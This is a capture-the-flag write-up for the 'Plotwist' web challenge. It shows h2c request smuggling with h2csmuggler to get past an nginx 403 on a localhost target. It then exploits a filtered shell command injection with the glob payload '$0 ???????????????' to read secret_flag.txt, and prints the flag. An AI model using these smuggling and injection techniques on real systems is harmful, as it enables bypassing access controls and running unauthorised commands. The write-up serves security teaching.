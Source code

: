 ## Plotwist

### Description

You stand on the edge of your final test. 
One choice, one letter, will determine your fate and you must prove yourself worthy of the path you take. 
No more gray, you must choose a side : Light or dark.

So time to ask jojo the question : which side of me are you? 

Choose carefully, for this moment will define who you truly are and remember, the hardest choices often lead to the greatest destiny. 

**Author : Sto**

### Solution

- With the dark side, we see that our output is rendered back in the server response. We think of SSTI, but it doesn't work. 
- With the light side, we receive a 403 code forbidden. and we learn that there's a nginx reverse proxy + using HTTP 1.1/

```
$curl --head http://localhost/api/noopsy

HTTP/1.1 403 Forbidden
Server: nginx/1.18.0
Content-Type: text/html
Content-Length: 153
Connection: keep-alive
```

So maybe we'd have to bypass this 403. 

We think about header smugggling as some misconfigured reverse proxy environments allow **HTTP/2 over cleartext (h2c)**.([Ref h2c Hacktricks](https://book.hacktricks.wiki/en/pentesting-web/h2c-smuggling.html)).
We will first send a request to the endpoint we can access `/api/lordhttp` with the UPGRADE header such as 
```
Upgrade: h2c
HTTP2-Settings: AAMAAABkAARAAAAAAAIAAAAA
Connection: Upgrade, HTTP2-Settings
```

This tells the proxy that you want to switch protocols on the current connection.

Then, we send the pending data immediately to perform a second request. The trick here is that if the proxy mishandles the upgrade and blindly forwards the second request without applying normal security checks, this request can target a restricted or internal endpoint that would normally be blocked (bypassing the original 403). 

Indeed, when upgrading a connection, the reverse proxy will often stop handling individual requests, assuming that once the connection has been established, its routing job is done. 


We can try directly use [h2csmuggler](https://github.com/YoursSto/h2csmuggler).
```
./h2csmuggler.py -x http://localhost:80/api/lordhttp http://localhost:80/api/noopsy
```

This gives us the following output : 
```
[INFO] h2c stream established successfully.
:status: 200
content-length: 46
content-type: application/json
date: Sun, 30 Mar 2025 02:14:57 GMT
server: hypercorn-h2

{"msg":"Hello from the other side, Lord HTTP"}



[INFO] Requesting - /api/noopsy
:status: 200
content-length: 100
content-type: application/json
date: Sun, 30 Mar 2025 02:14:57 GMT
server: hypercorn-h2

{"msg":"Got a secret, can you keep it? Well this one, I'll save it in the secret_flag.txt file ^.^"}
```
So we clearly bypassed the 403 code, and upgraded the connection to a http2 persistent one. Now let's find a way to obtain the secret that noopsy is hiding in `secret_flag.txt` file.


Let's try to send a letter to noopsy (maybe we have an ssti with him actually). 
```
./h2csmuggler.py -x http://localhost:80/api/lordhttp http://localhost:80/api/noopsy -X POST --data '{"letter": "{{7*7}}"}'   
[INFO] h2c stream established successfully.
:status: 200
content-length: 46
content-type: application/json
date: Sun, 30 Mar 2025 02:27:05 GMT
server: hypercorn-h2

{"msg":"Hello from the other side, Lord HTTP"}



[INFO] Requesting - /api/noopsy
:status: 200
content-length: 25
content-type: application/json
date: Sun, 30 Mar 2025 02:27:05 GMT
server: hypercorn-h2

{"error":"Money\n        It’s a crime 💸\n        Talk in dollars or digits, or don’t even try 💁‍♀️\n        Money\n        So they say 💰\n        Is the root of all evil today 😈\n        Got a question? I’ll answer you away 💬✨"}
```

With several tries and payloads we keep obtaining a the same response. 
So maybe there are some characters that are blocked. 
Let's focus on the error msg : it says "Talk in dollars or digits" and "Got a question? I'll answer you".
Let's try to send a dollar amount, "100$" for instance.

We obtain this like : 
```
Response for '0': [INFO] h2c stream established successfully.
:status: 200
content-length: 46
content-type: application/json
date: Sun, 30 Mar 2025 02:34:12 GMT
server: hypercorn-h2

{"msg":"Hello from the other side, Lord HTTP"}



[INFO] Requesting - /api/noopsy
:status: 200
content-length: 36
content-type: application/json
date: Sun, 30 Mar 2025 02:34:12 GMT
server: hypercorn-h2

{"msg":"/bin/sh: 1: 100$: not found\n"}
```

Therefore, basically we have the error msg that highlights the fact that there's a **command injection** as our payload is executed by `/bin/sh`. Moreover, the allowed characters are only : digits (0-9), spaces, question marks and dollar sign (we can discover this by trying or reading closely the error message ^^). 


We think about bash special parameters ([Ref bash manual](https://www.gnu.org/software/bash/manual/html_node/Special-Parameters.html))
So we can use **`$0`** to expand the content of a script ([shell expansion](https://www.gnu.org/software/bash/manual/html_node/Shell-Expansions.html)). 

As we know the file name (`secret_flag.txt`), we then set our final payload to :
```
./h2csmuggler.py -x http://localhost:80/api/lordhttp http://localhost:80/api/noopsy -X POST --data '{"letter": "$0 ???????????????"}'
```
Which outputs : 
```
[INFO] h2c stream established successfully.
:status: 200
content-length: 46
content-type: application/json
date: Thu, 27 Mar 2025 02:49:48 GMT
server: hypercorn-h2

{"msg":"Hello from the other side, Lord HTTP"}



[INFO] Requesting - /api/noopsy
:status: 200
content-length: 100
content-type: application/json
date: Thu, 27 Mar 2025 02:49:48 GMT
server: hypercorn-h2

{"msg":"secret_flag.txt: 1: N0PS{4nD_I_FE3l_50m37h1nG_5o_wR0nG_d01nG_7h3_r18h7_7h1nG}: not found\n"}
```

And flag : **`N0PS{4nD_I_FE3l_50m37h1nG_5o_wR0nG_d01nG_7h3_r18h7_7h1nG}`**